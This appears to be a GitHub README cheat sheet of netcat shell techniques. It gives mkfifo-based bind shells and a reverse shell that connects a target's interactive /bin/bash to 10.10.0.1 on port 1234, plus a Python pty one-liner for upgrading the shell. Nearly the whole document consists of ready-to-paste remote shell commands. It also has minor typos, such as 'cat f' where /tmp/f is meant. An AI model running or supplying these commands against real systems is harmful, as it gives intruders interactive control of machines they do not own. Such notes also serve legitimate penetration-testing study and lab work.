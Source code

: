 # netcat_shells
Notes for utilizing netcat general use and for remote shells

OpenBSD derivities of nc/netcat (netcat-openbsd) have the '-e' option disabled for security purposes. This feature is enabled in netcat-traditional; however, there are other ways to achieve this with the OpenBSD version.
Below are other ways to execute remotely and options for upgrading the shell.

# Bind Method 1
on Remote Server:
mkfifo /tmp/f;
nc -l 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1

On client:
nc 10.10.0.1 1234

# Bind Method 2
On Remove Server:
mkfifo /tmp/f;
cat f | /bin/bash -i 2>&1 | nc -l 1234 > /tmp/f

On client:
nc 10.10.0.1 1234

# Additional Bind Methods
mkfifo /tmp/f ; nc -lk 1234 0< /tmp/f | /bin/bash 1> /tmp/f

#to show output on remote host<br>
mkfifo /tmp/f ; nc -l 1234 < /tmp/f | /bin/bash -i 2>&1 | tee /tmp/f

# Reverse Shell Methods
#similar to bind shell except remote target machine reaches out to server
On Client:
nc -l -p 1234

on Remote Server:
mkfifo /tmp/f; nc 10.10.0.1 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1


# Getting a better Shell
If executing bash without the '-i' flag, typical shell features will be lost. Below are several ways to gain a better shell.

Python Method:<br>
#Once are connected to the remote host issue the following<br>
python -c 'import pty; pty.spawn("/bin/bash")'
